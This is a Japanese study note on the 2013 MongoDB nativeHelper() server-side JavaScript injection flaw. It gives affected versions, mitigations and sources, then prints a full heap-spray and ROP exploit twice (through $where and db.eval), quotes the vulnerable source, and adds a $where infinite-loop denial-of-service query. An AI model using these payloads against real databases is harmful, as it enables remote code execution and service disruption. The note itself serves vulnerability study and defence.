 nativeHelper()に伴う脆弱性について
=================

#はじめに

2013/03/26 にマイナビニュースに掲載された、MongoDBの脆弱性について検証します。

- [MongoDBに脆弱性](http://news.mynavi.jp/news/2013/03/26/158/index.html)

## 影響を受けるバージョン

- MongoDB 2.2以前のバージョン（ただし、ビルド時にJavaScriptエンジンをV8に設定しているものは除く）

## 対策

- その1: MongoDB 2.4へのバージョンアップする  
- その2: noscriptingオプションをつけて起動する


## 情報源

一次情報 mongodb – SSJI to RCE  
http://blog.scrt.ch/2013/03/24/mongodb-0-day-ssji-to-rce/  

日本語情報 MongoDBに脆弱性  
http://news.mynavi.jp/news/2013/03/26/158/index.html  


## exploiteコード

my_collectionを存在するcollectionへ変更して、下記のコードを実行
```js
db.my_collection.find({'$where':'shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);'})
```

evalでも同様に落ちる
```
db.eval(function() {shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);})
```

## 何が問題？

native_helper()内のNativeFunction funcがxというJavaScriptのオブジェクトをチェック無しでcallすることが問題（らしい）  
  
src/mongo/scripting/engine_spidermonkey.cpp
```js
JSBool native_helper( JSContext *cx , JSObject *obj , uintN argc, jsval *argv , jsval *rval ) {
        try {
            Convertor c(cx);
            NativeFunction func = reinterpret_cast(
                    static_cast( c.getNumber( obj , "x" ) ) );
            void* data = reinterpret_cast<void*>(
                    static_cast( c.getNumber( obj , "y" ) ) );
            verify( func );

            BSONObj a;
            if ( argc > 0 ) {
                BSONObjBuilder args;
                for ( uintN i = 0; i < argc; ++i ) {
                    c.append( args , args.numStr( i ) , argv[i] );
                }
                a = args.obj();
            }

            BSONObj out;
            try {
                out = func( a, data );
            }
            catch ( std::exception& e ) {
```

run、run_とmongo shellでソースを見ると、{x : "xxxxx"}というハッシュになっていることがわかる
```js
> run
function () {
    return nativeHelper.apply(run_, arguments);
}

>run_
{ "x" : 4295168976 }

```

runはmongo shellから、shellのコマンドを実行するための関数。  
なのでチェック無しで実行しているのだろうか（勉強会での議論に続く）



## 今回とは別のダメな例

```js
db.test.find({'$where':'while(1){};return true;'}) 
```

## 2.4から$whereのセキュリティが向上した

2.4 からグローバルオブジェクトにアクセスできない制限が入った

## リスクを考える

どうなんでしょうか。ユーザーのインプットをそのままJavaScriptとして評価するのが条件？  
（活発な意見、求む）

